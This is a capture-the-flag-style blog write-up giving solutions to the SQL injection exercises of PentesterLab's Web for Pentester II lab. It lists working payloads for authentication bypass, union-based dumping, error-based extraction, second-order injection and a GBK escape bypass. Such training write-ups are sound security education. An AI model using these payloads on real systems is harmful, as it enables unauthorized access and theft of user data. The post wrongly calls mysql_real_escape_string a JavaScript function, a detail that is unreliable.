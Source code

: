 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: yzh503
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##Solutions 
###Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight mySQL %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight mySQL%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight mySQL%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


###Example 2
In this example, the number of users returned is restricted.
{% highlight mySQL %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


###Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight mySQL %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

###Example 4
There is no text box, so look at the address bar. 
{% highlight mysql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight mysql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight mysql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight mysql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


###Example 5
This is a union-based SQL injection.
{%highlight mysql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


###Example 6 
Change the url to
{%highlight mysql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight mysql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


###Example 7
Pentester lab provides an error-pone statement, 
{%highlight mysql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


###Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight mysql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


###Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight mysql%}
呵' or 1=1 #
{%endhighlight%}



